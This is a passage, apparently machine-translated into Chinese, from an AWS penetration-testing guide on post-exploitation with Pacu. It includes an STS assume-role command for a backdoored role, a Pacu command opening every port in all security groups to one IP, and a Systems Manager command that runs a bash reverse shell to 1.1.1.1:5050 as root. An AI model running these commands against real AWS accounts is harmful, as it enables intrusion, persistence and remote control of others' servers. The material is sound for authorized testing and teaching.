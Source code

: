 我们自己的服务器在端口 5050 上侦听来自后门 Lambda 功能的 IAM 角色 ARN

正如我们在前面的屏幕截图中所看到的，向我们的服务器发出了一个`HTTP``POST`请求，请求主体中有一个 URL 编码的 IAM 角色 ARN（名为`A-New-Role`。

如果我们想为这个后门角色请求凭据，我们将使用 STS`AssumeRole`API。我们可以通过运行以下 AWS CLI 命令，使用我们的`PersonalUser`凭据来实现这一点：

```
aws sts assume-role --role-session-name Backdoor --role-arn arn:aws:iam::216825089941:role/A-New-Role
```

我们可以对最终被创建并导出到服务器的任何其他角色使用相同的命令；我们只需要修改其中的 ARN。

既然我们是帐户的管理员，我们就有了几种形式的提升持久性，并且我们还在帐户中执行了一些基本的侦察。现在，我们准备进入服务开发阶段。

# 剥削后

开发后（或服务开发）阶段本质上是我们将尽可能多的 AWS 服务作为目标，试图发现弱点、错误配置和不良做法。在本节中，我们将介绍一些主要的 AWS 服务，但是任何 AWS 服务都有可能被利用和错误配置，因此，查看正在使用的任何服务或资源几乎总是富有成效的，即使您可能不熟悉该服务本身。

# EC2 开发

我们已经开始研究一些与 EC2 相关的东西，所以这就是我们要开始的地方。EC2 也是你在五旬节期间会遇到的最常见的服务之一，因此，熟悉它并测试它是一个好主意。EC2 在配置错误时也会产生一些高影响的发现，因此您可以将其作为主要服务来启动，而不会出错。

我们可以检查的第一件事是，如果有的话，EC2 实例具有公共 IP 地址。这在 AWSWeb 控制台中很简单，因为您可以简单地按具有公共 IP 的实例对结果进行排序。如果我们想从`CompromisedUser`获得控制台访问权限，我们可以使用 IAM`CreateLoginProfile`API 为我们创建登录密码，但如果我们不想这样做，我们可以使用 Pacu 中的`data EC2`命令查看我们之前执行的枚举结果。

然后，对于每个具有公共 IP 地址的实例，我们可以检查附加到它们的 EC2 安全组。理想情况下，我们查看安全组规则，以尝试查找实例上可能正在运行的任何服务。如果我们看到端口 80 打开到某个 IP 地址，我们就知道可能有一个 web 服务器在实例上运行。如果我们看到端口 22 打开到某个 IP 地址，我们就知道可能有一个 SSH 服务器正在运行（等等）。如果这些端口中的任何一个对公众开放，我们可以尝试访问这些端口，并查找任何悬而未决的结果，例如弱/缺乏身份验证、已知漏洞，或者您可能在网络风格的 pentest 中查找的任何其他内容。

如果满足适当的条件，我们甚至可以在没有公共 IP 地址的实例上执行相同的任务，但是通过管理员访问，我们可以使任何事情都正常工作。我们已经在帐户中启动了一个 EC2 实例以进行特权升级，因此我们可能在其他 EC2 实例的专有网络中。如果没有，我们可以启动另一个实例并通过这种方式获得访问权限。从该实例中，我们可以访问其他 EC2 实例的内部 IP，因此我们可能会获得进一步的访问权限。

如果这些都不起作用，我们可以修改这些实例上的安全组规则，以允许我们自己访问。您可以使用 EC2`AuthorizeSecurityGroupIngress`API 手动执行此操作，或者我们可以使用`ec2__backdoor_ec2_sec_groups`模块创建允许我们访问任何端口的后门规则。实现这一点的 Pacu 命令如下所示，我们为所有安全组打开`1.1.1.1`IP 地址的每个端口（模拟它是我们自己的 IP）：

```
run ec2__backdoor_ec2_sec_groups --port-range 1-65535 --protocol TCP --ip 1.1.1.1/32
```

现在，如果我们来自`1.1.1.1`IP 地址，我们应该能够访问任何实例上的任何端口。此时，我们可以像在常规内部网络测试中一样攻击这些服务。

如果我们想在任何 EC2 实例上直接获得 RCE，我们可以尝试几种方法。如果您不关心重新启动任何 EC2 实例（您应该关心，因为我们通常不希望对客户端服务器这样做），那么您可以使用`ec2__startup_shell_script`Pacu 模块停止所有（或指定的）EC2 实例，修改它们的`userdata`以在启动时输入一个反向 shell 作为`root/SYSTEM`，然后启动所有这些实例进行备份。它们只会脱机几分钟，但如果您不熟悉环境的设置，这可能会导致重大问题，因此通常不建议这样做。

如果我们想在 EC2 实例上获得 RCE，并且满足了正确的条件，我们可以使用 Pacu 中的`systemsmanager__rce_ec2`模块。它尝试确定哪些 EC2 实例安装了 systems manager 代理（默认情况下或未安装），然后如果确定了任何实例，它将尝试将 systems manager 角色附加到这些实例。完成后，符合正确条件的实例将显示为 systems manager`run`命令的可用目标，该命令允许您作为`root/SYSTEM`用户在目标实例上执行代码。在 Linux 目标上运行反向 bash shell 的示例 Pacu 命令可能如下所示：

```
run systemsmanager__rce_ec2 --target-os Linux --command "bash -i >& /dev/tcp/1.1.1.1/5050 0>&1"
```
